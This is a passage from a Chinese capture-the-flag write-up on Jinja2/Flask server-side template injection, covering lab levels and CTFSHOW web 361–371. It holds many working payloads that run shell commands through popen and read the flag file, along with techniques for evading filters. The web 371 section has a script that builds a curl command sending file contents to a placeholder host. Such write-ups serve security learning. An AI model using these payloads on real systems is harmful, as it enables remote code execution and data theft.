        url = "http://192.168.134.132:5000/level/4"
        data={"code":'{{().__class__.__base__.__subclasses__().__getitem__('+str(i)+').__init__.__globals__.__getitem__("popen")("cat flag").read()}}'}
        res = requests.post(url=url,data=data, headers=headers)
        if 'Hello' in res.text:
            print(res.text)

    except:
        pass
```

[](https://storage.tttang.com/media/attachment/2022/08/14/cb1d355d-e563-421d-a317-644df75fceed.png)

### [level 5](#toc_level-5)

[](https://storage.tttang.com/media/attachment/2022/08/14/552fdfeb-8919-4fb1-a564-e55eec5f7821.png)  
题目说过滤了单引号和双引号，这里的话就可以考虑使用`request.arg.a`，然后发送GEt请求`a=xxx`这种方式来实现绕过  
我们这次使用这个payload

```plain
{{c.__init__.__globals__['__builtins__'].open('flag', 'r').read()}}
```

构造payload如下

```plain
GET:a=__builtins__&b=flag&c=r
POST:code={{c.__init__.__globals__[request.args.a].open(request.args.b, request.args.c).read()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/913853b9-70ba-464d-92e6-402fb8321955.png)  
当然，也可以利用`request.cookie.a`这种，两者实质是相同的，不再演示

### [level 6](#toc_level-6)

[](https://storage.tttang.com/media/attachment/2022/08/14/fc18471c-8921-4edc-b6d2-a6c009bf1ca9.png)  
题目描述，过滤了下划线  
依旧可以同上关一样，借助request实现，我们这里换一个语句

```plain
{{().__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()}}
```

构造出来的payload

```plain
GET:cla=__class__&bas=__base__&sub=__subclasses__&ini=__init__&glo=__globals__&gei=__getitem__
POST:code={{()|attr(request.args.cla)|attr(request.args.bas)|attr(request.args.sub)()|attr(request.args.gei)(133)|attr(request.args.ini)|attr(request.args.glo)|attr(request.args.gei)('popen')('cat flag')|attr('read')()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/5246ab01-86d1-4850-8253-709fb100f975.png)  
也可以用十六进制结合过滤器attr()来进行绕过，举个例子

```plain
"".__class__=""|attr(__class__)=""|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")
```

那么这里的话我们就可以把下划线进行十六进制编码绕过  
原payload

```plain
().__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()
```

中括号这里用getitem转换为括号

```plain
().__class__.__base__.__subclasses__().__getitem__(133).__init__.__globals__.__getitem__('popen')('cat flag').read()
```

转换过后的

```plain
{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(133)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")('popen')('cat flag')|attr("read")()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/949d68da-8f0d-40cf-8629-0c1b3878c960.png)

### [level 7](#toc_level-7)

[](https://storage.tttang.com/media/attachment/2022/08/14/ae13693f-816d-493f-8f48-4bf7f4d2d439.png)  
题目描述过滤了`.`，这个时候就需要用到过滤器`attr()`了，上一关已经提及并简单使用过，这里再用代码复述一下其作用

```plain
().__class__=()|attr(__class__)
```

因此这里的话我们只需要将`.`用`attr()`进行替换即可  
原payload

```plain
{{().__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()}}
```

修改过后的payload如下

```plain
code={{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(133)|attr("__init__")|attr("__globals__")|attr("__getitem__")('popen')('cat flag')|attr('read')()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/f888e9a3-b950-486b-a649-43fbe3cff2b7.png)

### [level 8](#toc_level-8)

[](https://storage.tttang.com/media/attachment/2022/08/14/0a867607-eb1c-4a43-affc-2461e2c112b4.png)  
这关过滤的有点多，很多关键词都被ban了，这个时候可以考虑用字符拼接的方式

```plain
().__class__=()["__cla"+"ss__"] //这里的点被中括号代替了
```

原payload

```plain
"".__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()
```

修改过后的payload

```plain
{{""["__cla"+"ss__"]["__ba"+"se__"]["__subcla"+"sses__"]()[133]["__in"+"it__"]["__glo"+"bals__"]['po'+'pen']('cat flag').read()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/43e5983b-c086-4b7e-b461-6f76c7e51e8d.png)  
或者这里也可以使用for+if语句

```plain

```

[](https://storage.tttang.com/media/attachment/2022/08/14/b6634ba4-f842-4074-8015-f0b69f29431e.png)

这里也可以考虑使用join()过滤器，它可以将字符串进行拼接，举个例子

```plain
dict(__in=a,it__=a)|join  =__init__
```

[](https://storage.tttang.com/media/attachment/2022/08/14/09fcc953-c713-4036-a2ac-34951ec84705.png)  
我们构造payload如下

```plain







```

[](https://storage.tttang.com/media/attachment/2022/08/14/72143475-187d-4d17-ab0b-f616e75c3bd2.png)  
同样，还可以利用其他过滤器进行此类操作，例如

```plain
使用reverse过滤器.它的作用是反置字符串，举个例子

使用replace过滤器.它的作用是替换字符串，举个例子
如
```

### [level 9](#toc_level-9)

[](https://storage.tttang.com/media/attachment/2022/08/14/4e82e130-4871-476e-b476-af0069b77850.png)  
过滤了数字，这个比较简单了就，我们可以利用不涉及数字的，直接就绕过了  
这里给出一个payload

```plain
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/e2be2ab1-c2bf-4f4e-9841-cf239ae857c7.png)  
不过正常的思路的话应该是用join进行拼接后，加上count，从而得到想得到的数字，举个例子

```plain
 
```

[](https://storage.tttang.com/media/attachment/2022/08/14/8a4ae22f-48c7-4826-8193-1a387270227d.png)  
我们这里利用这个payload

```plain

```

简单修改一下

```plain


```

[](https://storage.tttang.com/media/attachment/2022/08/14/89045fc8-4c82-44b6-9f92-72f853cf5711.png)

### [level 10](#toc_level-10)

[](https://storage.tttang.com/media/attachment/2022/08/14/529ed33d-008e-4962-8cab-ae07f8b49eef.png)  
本关的目的是`get config`，设置了config为空  
这里需要扩展一下，存在这样一个变量`current_app`，它的介绍如下

> 应用上下文会在必要时被创建和销毁。它不会在线程间移动，并且也不会在不同的请求之间共享。正因为如此，它是一个存储数据库连接信息或是别的东西的最佳位置

这里可以尝试用它来进行绕过  
构造的payload如下

```plain
{{url_for.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['current_app'].config}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/95d60abd-7dff-49ce-97fe-4bce48fb62d5.png)

### [level 11](#toc_level-11)

[](https://storage.tttang.com/media/attachment/2022/08/14/92e302cb-a002-4a5d-a162-df495c298ac5.png)  
过滤了单引号、双引号、加号、`request`，引号和中括号,这里我们使用这个payload

```plain
().__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()
```

点被过滤，这里用attr来替代，关键词的话我们这里可以用join拼接来进行获取，修改过后的payload如下

```plain
  
  
   

 
 
 
  #构造空格


{{()|attr(a)|attr(b)|attr(c)()|attr(d)(133)|attr(e)|attr(f)|attr(d)(g)(flag)|attr(re)()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/f9ab3a1f-e4f7-4f24-a41c-674e6cf6236a.png)

### [level 12](#toc_level-12)

[](https://storage.tttang.com/media/attachment/2022/08/14/437eac95-8cb5-4e9f-b35f-7c067f012648.png)  
跟上关差不多，多过滤了个数字和下划线，我们用count来获取数字，构造pop来获取下划线即可即可  
[](https://storage.tttang.com/media/attachment/2022/08/14/7f3d6938-5e06-4661-9d39-88c656e2ab9b.png)

沿用上关payload，简单修改一下

```plain





  
  
   

 
 
 
 


{{()|attr(a)|attr(b)|attr(c)()|attr(d)(hundred)|attr(e)|attr(f)|attr(d)(g)(flag)|attr(re)()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/f1a7b7a4-587b-4428-84db-e072b4f43b83.png)

### [level 13](#toc_level-13)

[](https://storage.tttang.com/media/attachment/2022/08/14/a33e3b2d-e475-4276-aaaa-565a323cd08a.png)  
过滤增添了一些关键词，其中`self`被ban，本来用它设置的空格，但无妨，我们这里可以利用pop构造空格，简单修改一下之前的payload

```plain






  
  
   

 
 
 



{{()|attr(a)|attr(b)|attr(c)()|attr(d)(hundred)|attr(e)|attr(f)|attr(d)(g)(flag)|attr(re)()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/2a0df7f0-de13-4cf9-bf2b-c8c28334b00c.png)

## [CTFSHOW](#toc_ctfshow)

### [web 361](#toc_web-361)

参数为name，尝试注入

```plain
name={{7*7}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/4f9c861e-cb68-47e7-8225-aba96a332960.png)  
存在SSTI模板注入

```plain
name={{request.__class__.__mro__[-1].__subclasses__()[132]}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/db173acc-832e-40f2-8969-649125e42284.png)  
找到`<class 'os._wrap_close'>`，os.\_wrap\_close类里有popen。这里直接利用popen来执行命令

```plain
{{request.__class__.__mro__[-1].__subclasses__()[132].__init__.__globals__['popen']('tac /flag').read()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/ba951465-b8ba-4c7d-bf11-7a1a3ad6acc4.png)

### [web 362](#toc_web-362)

上面的payload不管用了，这里可以用一个通用payload  
原理就是找到含有\_\_builtins\_\_的类，然后利用。

```plain
{{c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('tac /flag').read()") }}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/5a13b746-0cde-4bc3-a01d-6e1f059ae20b.png)  
也可以这样

```plain
{{c.__init__.__globals__['__builtins__'].open('/flag', 'r').read()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/df2a5c3d-37f5-4bbc-b5f5-eab4104e4472.png)

### [web 363](#toc_web-363)

过滤了单引号和双引号，我们这里可以利用变量赋值，再引用变量即可  
args只获取地址栏中参数 ，不分get请求方式还是post请求方式.  
原payload

```plain
{{c.__init__.__globals__['__builtins__'].open('/flag', 'r').read()}}
```

经过简单修改后的payload

```plain
a=__builtins__&b=/flag&c=r&name={{c.__init__.__globals__[request.args.a].open(request.args.b, request.args.c).read()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/7efdcaab-0de7-4aba-b46c-701a4792ca20.png)  
当然，也可以利用chr函数来进行绕过,但chr()默认是没有的需要自己去调用定义，chr()在builtins里

```plain
name={{url_for.__globals__[chr(111)%2bchr(115)].popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(42)).read()}}

/*原payload
name={{url_for.__globals__[o+s].popen(c+a+t+ +/+f+*).read()}}
```

### [web364](#toc_web364)

`'`，`"`和 `args`被ban，按理说可以用values替代args，但  
[](https://storage.tttang.com/media/attachment/2022/08/14/29cac08d-0051-435a-b58a-7d7d82c43aa8.png)  
回显方法不允许使用，所以这里的话还需要去另寻他法  
发现用 request.cookies 绕过也可以  
[](https://storage.tttang.com/media/attachment/2022/08/14/b16a7ff1-e7a7-45ca-96fa-79b1f2409c64.png)

```plain
name={{c.__init__.__globals__[request.cookies.a].open(request.cookies.b, request.cookies.c).read()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/42ddf156-5405-403b-a6be-e458948b6ff1.png)  
除此之外，也可以利用chr来进行绕过  
payload的构造同上关即可

```plain
name={{url_for.__globals__[chr(111)%2bchr(115)].popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(42)).read()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/427e104f-de26-4a45-a025-c39f2ec6fe2f.png)

### [web 365](#toc_web-365)

这里的话`'`,`"`,`[`被ban，这里仍然可以用request.cookies来进行绕过

```plain
?name={{url_for.__globals__.os.popen(request.cookies.c).read()}}
//c= tac /flag
```

[](https://storage.tttang.com/media/attachment/2022/08/14/e6295b8b-822c-48c1-945e-dd8e60a3ff1e.png)

### [web 366](#toc_web-366)

这里的话过滤了\_，我们可以利用过滤器attr结合request来进行绕过

```plain
{{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}}
cookies:a=__globals__&b=cat /flag
```

[](https://storage.tttang.com/media/attachment/2022/08/14/b4882dfc-0d8d-4133-8728-987267c7ecc0.png)

### [web 367](#toc_web-367)

过滤多了个os，但未过滤request，那么这里可以继续用request来进行绕过  
本来构造的payload

```plain
{{(lipsum|attr(request.cookies.a)).request.cookies.c.popen(request.cookies.b).read()}}
cookies:a=__globals__&b=cat /flag&c=os
```

但不知为何未正常回显，这里的话采用之前的values方式，但不用POST，通过GET进行传值时可以正常回显

```plain
a=__globals__&b=cat /flag&c=os&name={{(lipsum|attr(request.values.a)).get(request.values.c).popen(request.values.b).read()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/6a8dec7c-4854-47b2-995d-77b1a1d89dbc.png)

### [web 368](#toc_web-368)

`{{}}`被ban，这里需要用``来进行绕过，修改一下上关payload即可

```plain
a=__globals__&b=cat /flag&c=os&name=
```

### [web 369](#toc_web-369)

request被ban，这里我们可以自己构造拼接语句来进行攻击  
原payload是

```plain
name=
```

这里由于单引号无法使用，所以我们需要自己构造/flag，构造字符串需要用到chr，也就需要调用chr函数，构造chr函数

```plain
构造下划线

构造ini="___init__"

构造__globals__

构造geti="__getitem__"

构造built="__builtins__"

调用chr()函数


构造/flag
{% set flag=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}

```

[](https://storage.tttang.com/media/attachment/2022/08/14/452e0efa-110d-407c-81aa-f507843aea56.png)

[](https://storage.tttang.com/media/attachment/2022/08/14/47e49c5b-327f-4c9e-94cd-2fec8504690a.png)  
最终payload

```plain
name=







{% set flag=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}

```

附赠一个字符串转换为chr小脚本

```plain
i= input("输入字符串:")
flag=""
for c in i:
    c= ord(c)
    b="chr(%d)" %(c)
    flag +=b+'%2b'
print(flag[0:-3:1])
```

[](https://storage.tttang.com/media/attachment/2022/08/14/e817b319-1a88-47f3-8496-4d4aef9f2720.png)

[](https://storage.tttang.com/media/attachment/2022/08/14/6bdfc5e5-95cb-4162-8c71-6513a0bc44b4.png)

### [web 370](#toc_web-370)

[](https://storage.tttang.com/media/attachment/2022/08/14/b3d6a8cd-6158-4e3e-8f2d-c1a7f6f73012.png)  
这里的话就可以利用上关姿势，然后我们构造出数字来进行替换即可

```plain













{% set flag=chr(ee)%2bchr(eeee)%2bchr(eeeeee)%2bchr(eee)%2bchr(eeeee)%}

```

### [web 371](#toc_web-371)

print被过滤，这里的话我们用反弹shell来做

```plain
http://c8f74fd3-a05a-477c-bb97-10325b9ce77d.chall.ctf.show?name=























abc

```

cmd内的内容由以下脚本生成

```plain
def aaa(t):
    t='('+(int(t[:-1:])+1)*'c'+'~'+(int(t[-1])+1)*'c'+')|int'
    return t
s='__import__("os").popen("curl http://xxx:7777?p=`cat /flag`").read()'
def ccchr(s):
    t=''
    for i in range(len(s)):
        if i<len(s)-1:
            t+='chr('+aaa(str(ord(s[i])))+')%2b'
        else:
            t+='chr('+aaa(str(ord(s[i])))+')'
    return t
print(ccchr(s))
```

[](https://storage.tttang.com/media/attachment/2022/08/14/0ab3490b-85bf-4040-bdb3-56a53e1ae7d2.png)

# [参考文献](#toc__12)

[https://flask.palletsprojects.com/en/2.2.x/](https://flask.palletsprojects.com/en/2.2.x/)  
[https://docs.python.org/zh-cn/3/tutorial/inputoutput.html](https://docs.python.org/zh-cn/3/tutorial/inputoutput.html)  
[https://jinja.palletsprojects.com/en/3.0.x/templates/#filters](https://jinja.palletsprojects.com/en/3.0.x/templates/#filters)  
[https://xz.aliyun.com/t/9407#toc-2](https://xz.aliyun.com/t/9407#toc-2)  
[https://xz.aliyun.com/t/3679#toc-11](https://xz.aliyun.com/t/3679#toc-11)  
[https://blog.csdn.net/qq\_38154820/article/details/111399386](https://blog.csdn.net/qq_38154820/article/details/111399386)  
[https://xz.aliyun.com/t/10394#toc-13](https://xz.aliyun.com/t/10394#toc-13)  
[https://y4tacker.blog.csdn.net/article/details/107752717](https://y4tacker.blog.csdn.net/article/details/107752717)  
[https://misakikata.github.io](https://misakikata.github.io/2020/04/python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E4%B8%8ESSTI/#builtins)
